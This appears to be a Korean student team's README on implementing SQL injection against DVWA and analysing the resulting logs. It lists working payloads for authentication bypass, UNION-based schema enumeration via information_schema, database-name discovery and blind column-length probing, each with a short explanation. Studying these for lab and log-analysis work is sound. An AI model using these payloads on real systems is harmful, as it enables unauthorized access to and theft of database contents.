 ##  SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
###  1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.


---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- 
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.
